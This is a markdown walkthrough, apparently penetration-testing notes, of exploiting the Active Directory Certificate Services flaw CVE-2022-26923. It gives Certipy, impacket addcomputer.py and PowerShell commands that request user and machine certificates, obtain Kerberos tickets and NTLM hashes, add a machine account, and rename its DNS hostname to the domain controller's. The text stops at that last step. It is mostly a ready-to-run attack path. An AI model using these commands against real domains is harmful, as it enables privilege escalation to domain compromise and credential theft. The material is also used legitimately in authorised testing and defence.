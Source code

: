 # Active Directory Certificate Services (ADCS) CVE-2022-26923

This attack relies on ADCS being available within the internal active directory network you are attempting to compromise. Furthermore, a low privieged domain user account will be required for the steps in the attack path.

With the low privileged user credentials, search for the ADCS server within the active directory domain. This can be done by running `certutil.exe` within Microsoft Windows, or by using `Certipy.py`, which is available from https://github.com/ly4k/Certipy. Certipy requires Python 3 and also impacket to be installed. If this attack is ran from a Kali Linux machine attached to the network, the dependencies should come preinstalled.

*Note that ADCS does not have to be running on the domain controller, and quite often it will be ran on its own server instance*

Use certipy to discover the details of the ADCS server within the domain. The following command will list the details of the Certificate Authority "CA" within the AD environment, along with what certificate templates are available:

```shell
certipy.py find 'domain.local/username:password@dc1.adcs-server.domain.local'
```

Now a certificate can be generated for the current user using Certipy and the "User" template. This will then download a ".pfx" certificate file. The name of the CA can be found from the output of the `Certipy.py find` command or `certutil.exe`

```shell
certipy.py req 'domain.local/username:password@dc1.adcs-server.domain.local' -ca "Name Of CA" -template user
```

Now a TGT can be obtained for the user using Certipy. The following command will generate a CCACHE file containing a Kerberos TGT for the user "username". THe command will output the CCACHE file, along with the NTLM hash for the user.

```shell
certipy.py auth -pfx username.pfx
```

Now impacket can be used to add a new computer object to the active directory domain. In a default active directory configuration, a standard user can add up to 10 machine accounts. Providing the user can add a machine account to the domain, `addcomputer.py` can be used:

```shell
addcomputer.py 'domain.local/username:password' -method LDAPS -computer-name NEW-PC -computer-password Password123!`
```

Now with the new computer added to the domain, a machine certificate can be requested from the ADCS server:

```shell
certipy.py req 'domain.local/NEW-PC$:Password123!@dc1.adcs-server.domain.local' -ca "Name Of CA" -template Machine'
```

The certificate will download as a ".pfx" file with the `NEW-PC.pfx`. Now a TGT can be created for the machine account, which will output a CCACHE file:

```shell
certipy auth -pfx NEW-PC.pfx
```

On a Windows host on the target environment, the following commands can now be ran in powershell to make modifications to the DNS hostname. First look at the dnshostname and service princlpal name:

```powershell
Get-ADComputer NEW-PC -properties dnshostname,serviceprincipalname
```

First, delete the serviceprincipalname using the following powershell command:

```powershell
Set-ADComputer NEW-PC -ServicePrincipalName @{}
```

Rename the DNS hostname to a hostname that belongs to the domain controller within the environment:

```powershell
Set-ADComputer NEW-PC -DnsHostName DC1.domain.local
```





